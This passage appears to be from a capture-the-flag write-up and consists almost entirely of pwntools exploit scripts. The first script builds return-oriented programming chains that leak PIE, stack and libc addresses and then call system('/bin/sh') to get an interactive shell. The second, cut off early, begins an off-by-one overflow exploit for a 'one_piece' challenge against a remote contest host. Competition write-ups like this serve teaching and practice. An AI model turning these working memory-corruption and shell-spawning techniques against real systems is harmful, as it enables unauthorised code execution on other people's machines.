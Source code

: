 ```python
pie_base = u64(io.recvn(0x6)+b"\x00\x00")-0x8e9
print(f"Pie base: {hex(pie_base)}")
io.sendafter("?","y")
io.sendafter("mind ??",str(-1))
ROP2 = b"A"*0x3e+b"BB"
io.sendafter("?\n",ROP2)
io.recvuntil("BB")
stack_leak = u64(io.recvn(6)+b"\x00\x00")
print(f"Stack leak: {hex(stack_leak)}")
io.sendafter("?","y")
io.sendafter("mind ??",str(-1))
ROP3  = b"A"*0x40+p64(stack_leak)+p64(pie_base+pop_rdi)+\
	p64(pie_base+exe.got["puts"])+p64(pie_base+exe.sym.puts)+\
	p64(pie_base+pop_rdi)+p64(pie_base+exe.sym.puts)+\
	p64(pie_base+main)
io.sendafter("?\n",ROP3)
io.recvn(0x46)
libc_puts = u64(io.recvn(0x10)[0x0:0x6]+b"\x00\x00")
libc_base = libc_puts-puts
print(f"Libc puts: {hex(libc_puts)}")
print(f"Libc base: {hex(libc_base)}")
io.sendafter("mind ??",str(-1))
ROP4  = b"A"*0x48+p64(pie_base+pop_rdi)+p64(libc_base+binsh)+\
	p64(pie_base+ret)+\
	p64(libc_base+system)
io.sendafter("?\n",ROP4)
io.interactive()
```


# Challenge - one_piece

### Yet another buffer overflow becuse of one byte overflow into size field.

#### Exploit
```python
#!/usr/bin/python3
from pwn import *
exe = context.binary = ELF("./one_piece")

####Addr
pop_rdi = 0x00000ba3
pop_rsi = 0x00000ba1
main = 0x0000b1a
system = 0x0554e0
puts = 0x087490
binsh = 0x1b6613
ret = 0x00000960

####Utils
def rshellcode(shellcode):
	io.sendlineafter(">>","read")
	io.sendafter(">>",shellcode)

def blah():
	io.sendlineafter(">>","gomugomunomi")

####Exploit
#io = process(["./one_piece"])
io = remote("onepiece.fword.wtf",1238)
rshellcode(b"A"*0x27+b"\x7a")
```